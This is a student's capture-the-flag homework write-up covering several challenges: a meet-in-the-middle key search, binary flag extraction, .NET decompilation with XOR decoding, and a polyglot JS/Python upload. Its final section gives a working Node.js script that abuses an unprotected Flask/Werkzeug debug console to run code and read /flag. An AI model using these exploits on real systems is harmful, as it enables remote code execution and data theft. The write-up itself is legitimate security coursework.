



# Computer Security: Hw0 Writeup
## Let's meet in class
To find the four unknown keys, the naive approach is to use 4 nested loops with complexity $O(10^{12})$. But with **meet in the middle** approach, we can reduce it to $O(10^{6})$.

1. Calculate all possibilities of ```XOR(key[0], key[1])```, and use these values as keys in a dictionary. This process has complexity of $O(10^{6})$.

```Dict[XOR(key[0], key[1])] = Pair(key[0], key[1])```

2. Calculate all possibilities of ```XOR(hint, key[2], key[3])``` and check if the dictionary has this value as a key. This process also has complexity of $O(10^{6})$. If the key exists, we have found the four unknown keys.

3. Rebuild our flag by doing ```enc * inverse_modulo(key[0] * key[1] * key[2] * key[3]) % p```.

## Welcome
By opening the executable file in an editor, we discover that the redacted flag is inside.

path: imgs/welcome_redacted.png


According to Dockerfile, the executable is at the location : ```/home/chal/chal```, which is the file we will open.
We set the offset to 10000 to get closer to our target, and start reading from the file and writing to output repeatedly. The flag shows up in the output.

path: imgs/welcome_flag.png


## Nine Revenge
1. Use ```file``` command to discover it is a .NET executable
2. Use the 32 bit version of dnSpy(.NET debugger) to decompile the executable to search the original code for the flag.

path: imgs/Nine_revenge.png


Then, we alter the string above:
- remove all substrings “pui” and the first character
- decode it from base 64
- xor each byte with 135 to get the original flag.

``` python=
import base64

flag = "wcvGwPzT7+LY9PPo6eLY7vTY6ejz2OH15uDu6+LY5un+6uj14qmpqfo="
flag = base64.b64decode(flag)
flag_arr = bytearray(flag)
new_flag = ""
for b in flag:
    b ^= 135
    new_flag += chr(b)

print(new_flag)
```

## Pyscript

The file with path ```_FILES[“file”][“tmp_name”]``` will be executed first with nodejs, and then with python3.

1. Use javascript to read and print the flag.
2. Use javascript to overwrite ```_FILES[“file”][“tmp_name”]``` with a new python3 script that also reads and prints the flag.

This would allow us to execute two different scripts for nodejs and python3.

**script:**
``` javascript=
var fs = require('fs')
var path = require('path')
var filepath = path.join(__dirname, path.basename(__filename))

var flagfile = '/flag'
var flag = fs.readFileSync(flagfile, {encoding:'utf8', flag:'r'})
flag = flag.toString()
process.stdout.write(flag)

const content = `
s = ""
with open('/flag') as f:
    s += f.readline()
s.strip()
print(s, end='')
`

fs.writeFileSync(filepath, content, {encoding:'utf8', flag:'w'})
```
3. Use : ```curl -F file=@script https://pyscript.ctf.zoolab.org``` to get the flag.

## Pyscript_UnderDevelopment

Flask's debug mode is enabled and PIN is turned off:
`````` dockerfile=
ENV FLASK_DEBUG=true
ENV WERKZEUG_DEBUG_PIN=off
``````
Without a debug PIN, flask's debug console allows us to execute any python code by including the given secret string in our get request. We can exploit this to read flag2 from the flask service.

``` javascript=
var http = require('http')

port = 5000
var secret = ""
var fs = require('fs')
var flag2 = ""

const regex = /SECRET = ".{20}"/
http.get(`http://flask:${port}/console`, res => {
    res.on('data', d => {
        d = d.toString();
        const found = d.match(regex);
        secret = found[0].substring(10, 30);
        http.get(`http://flask:${port}/console?__debugger__=yes&cmd=print(open(%27%2Fflag%27).readline())&frm=0&s=${secret}`, res => {
            res.on('data', d => {
                d = d.toString();
                flag2 = d.split('\n')[1];
            });
        });
    });
})

```

We try guessing flag2 byte by byte since we can't pass the if condition in PHP. If ```guessed_char == flag2[index]```, then we do as in [Pyscript](#pyscript) and read flag1 with javascript and python. Based on this, we can use the returned string to check if our guess is correct: we get `'Here is your Flag: FLAG{w3lc0m3_t0_th3_w0r1d_0f_CTF!}'` on a successful guess and `Failed :(` on an incorrect guess). It takes at most `128 * flag2_length` queries to guess flag2.